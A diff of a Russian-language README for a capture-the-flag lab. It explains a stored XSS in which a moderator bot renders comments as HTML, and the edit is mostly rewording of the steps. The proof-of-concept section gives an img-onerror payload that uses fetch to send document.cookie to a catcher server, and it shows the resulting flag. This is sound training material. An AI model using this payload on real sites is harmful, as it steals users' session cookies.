

Before and after one commit to taanchhik/crocodile-ctf, a Markdown page: README.md, the part around one of its changes. Rendered like a GitHub page.

````diff
--- a/README.md
+++ b/README.md
@@ -69,7 +72,7 @@ document.querySelectorAll('.comment-content').forEach(el => {
 
 ### Как это работает
 
-Обычные пользователи видят комментарии на сайте как простой текст. А бот-модератор, который владеет важной cookie, видит комментарии как HTML и выполняет JavaScript код. Из-за содежания в куках секретной информации, уязвимость становится критичной:
+Обычные пользователи видят комментарии на сайте как простой текст. А бот-модератор, который владеет важной cookie, видит комментарии как HTML и выполняет JavaScript-код. Из-за содежания в куках секретной информации, уязвимость становится критичной:
 
 ```python
 # В bot/bot_checker.py
@@ -80,8 +83,8 @@ page.evaluate(f"document.cookie = 'flag={FLAG}; path=/';")
 
 ## PoC-эксплойт для получения флага
 
-1. Заходим в приложение с помощью браузера: http://127.0.0.1:5000
-2. Создаем нового пользователя: придумываем имя и пароль. Регистрируемся и входим в систему под этими учетными данными.
+1. Зайдите в приложение с помощью браузера: http://127.0.0.1:5000
+2. Создайте нового пользователя: придумайте имя и пароль. Зарегистрируйтесь и войдите в систему под этими учетными данными.
 3. Выберите любую статью и напишите комментарий:
    ```html
    <img src=x onerror="fetch('http://localhost:5001/catch?c='+document.cookie)">
@@ -90,3 +93,4 @@ page.evaluate(f"document.cookie = 'flag={FLAG}; path=/';")
 5. После обработки комментария бот выдаст флаг:
    ```bash
    FLAG: practice{XSS_ghj567OpPFGTH8gv_miem_ctf_2026}
+   ```
````
Also changed, not shown: other parts of README.md (+3 -0 lines).
